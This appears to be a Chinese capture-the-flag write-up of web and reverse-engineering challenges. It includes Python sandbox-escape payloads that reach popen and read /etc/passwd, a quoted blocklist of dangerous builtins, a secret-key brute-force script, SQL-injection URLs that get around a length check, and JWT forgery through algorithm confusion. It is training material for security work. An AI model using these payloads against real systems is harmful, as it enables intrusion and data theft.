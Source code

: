 
# web
### outdated
#python_escape 
上传python文件,服务器会执行
```python

blocked = ["__import__", "globals", "locals", "__builtins__", "dir", "eval", "exec",
        "breakpoint", "callable", "classmethod", "compile", "staticmethod", "sys",
        "__importlib__", "delattr", "getattr", "setattr", "hasattr", "sys", "open"]
```


基本上是 #ssti 的思路,感觉没啥问题啊
```python
# ''.__class__.__bases__[0].__subclasses__()[132].__init__['__gl\x6fbals__']['po\x70en']('ls').read()
print([].__class__.__mro__[-1].__subclasses__()[94]("/etc/passwd").read())
```

payload
```python
print("".__class__.__bases__[0].__subclasses__()[132].__init__.__globals__['popen']('cat flag-54f44180-b995-4083-9428-677e827126d5.txt').read())
```

---
```python
print(print.__self__.__loader__().load_module('o' + 's').__dict__['pop'+'en']('cat flag-2fc862c3-cad0-4736-8274-1d805fca98b4.txt').read())
```



在测试黑名单前会调用`clean_comments_and_strings` 函数
`print(.__class__.__bases__[0].__subclasses__()[132].__init__.__globals__[]().read())`
*那为啥globals没匹配到*

`blocked_regex = re.compile(fr'({"|".join(blocked)})(?![a-zA-Z0-9_])')
> 如果"blocked"列表中包含了字符串"eval"，那么正则表达式将匹配以下字符串："eval(", "eval+", "eval\n"等。但是不会匹配"evaluate"或"evaluation"等以"eval"开头但后面跟着字母数字字符的字符串。
### pay_to_win

- 存在任意文件读取
```python
    if payload['user_type'] == 'premium':
        theme_name = request.args.get('theme') or 'static/premium.css'
        return render_template('premium.jinja', theme_to_use=open(theme_name).read())
```

- 爆破密钥
```python
import hashlib
def hash(data):
    return hashlib.sha256(bytes(data, 'utf-8')).hexdigest()


data='eyJ1c2VybmFtZSI6ICJhZG1pbiIsICJ1c2VyX3R5cGUiOiAiYmFzaWMifQ=='

real="1af835e5354b1eabb67dfe7df8818f7377f4c83066de39ad3187fd8035f84cb7"
import random

for i in range(0,2**24):
    if hash(data+hex(i)[2:])==real:
        print(hex(i)[2:])
```

得到密钥`cc1f79`
本目录和根目录都没有flag,随便试了一下读取Dockerfile,提示flag在`/secret-flag-dir/flag.txt`

### ezsql
#nodejs #sql 
```js
app.get('/search', (req, res) => {
    const { name } = req.query;

    if (!name) {
        return res.status(400).send({ err: 'Bad request' });
    }

    if (name.length > 6) { 
        return res.status(400).send({ err: 'Bad request' });
    }

    db.all(`SELECT * FROM jokes WHERE joke LIKE '%${name}%'`, (err, rows) => {
        if (err) {
            console.error(err.message);
            return res.status(500).send('Internal server error');
        }

        return res.send(rows);
    });
});
```
很明显存在sql注入,但是存在长度限制,使用 `?name[]=`绕过去,这样就会获取数组的长度

- 注入得到flag表名
`search?name[]=1' union SELECT 1,name FROM sqlite_master WHERE type = 'table' --+`
- flag
`search?name[]=1' union SELECT 1,* from flag_601bfe49_65f6_4b9a_a142_40b2a3350327 --+`

### back-to-the-past

---

```python
def generate_token(id, username, year):
    return jwt.encode(
        {"id": id, "username": username, "year": year}, private_key, algorithm="RS256"
    )


def verify_token(token):
    try:
        return jwt.decode(token.encode(), public_key, algorithms=["HS256", "RS256"])
    except:
        return None
```

可以看到使用rs256非对称加密,我们只有公钥,如果伪造session需要私钥解密
但是还支持另外一种算法`hs256`,直接修改代码生成

```python
def generate_token(id, username, year):
    return jwt.encode(
        {"id": id, "username": username, "year": year}, public_key, algorithm="HS256"
    )
```



# reverse
### wtmoo
```c
for ( i = 0; i < v5; ++i )
  {
    if ( s[i] <= 96 || s[i] > 122 )
    {
      if ( s[i] <= 64 || s[i] > 90 )
      {
        if ( s[i] <= 47 || s[i] > 52 )
        {
          if ( s[i] <= 52 || s[i] > 57 )
          {
            if ( s[i] != 123 && s[i] != 125 )
            {
              puts("wtmoo is this guess???");
              printf("%c\n", (unsigned int)s[i]);
              return 1;
            }
          }
          else
          {
            s[i] -= 21;
          }
        }
        else
        {
          s[i] += 43;
        }
      }
      else
      {
        s[i] += 32;
      }
    }
    else
    {
      s[i] -= 60;
    }
  }
  if ( !strcmp(s, flag) )
    printf(cow, dest);
```

*decrypt*
```c
#include<iostream>
#include<algorithm>
using namespace std;
int main(){
int s[]={  0x38, 0x2E, 0x27, 0x38, 0x2A, 0x7B, 0x3B, 0x38, 0x6D, 0x33, 
  0x33, 0x5B, 0x6F, 0x5B, 0x33, 0x5B, 0x33, 0x5B, 0x25, 0x22, 
  0x29, 0x23, 0x2A, 0x5C, 0x7D};
int v5=sizeof(s)/sizeof(s[0]);
for (int  i = 0; i < v5; ++i )
  cout << (char)s[i];

for (int i = 0; i < v5; ++i )
  {
    if ( s[i] <= 36 || s[i] > 62 )
    {
      if ( s[i] <= 96 || s[i] > 122 )
      {
        if ( s[i] <= 90 || s[i] > 95 )
        {
          if ( s[i] <= 31 || s[i] > 36 )
          {
            if ( s[i] != 123 && s[i] != 125 )
            {
            }
          }
          else
          {
            s[i] += 21;
          }
        }
        else
        {
          s[i] -= 43;
        }
      }
      else
      {
        s[i] -= 32;
      }
    }
    else
    {
      s[i] += 60;
    }
  }
for (int  i = 0; i < v5; ++i )
  cout << (char)s[i];

}
```


# pwn

# crypto

# Misc


---
## *相关wp*




2023-05-27   19:07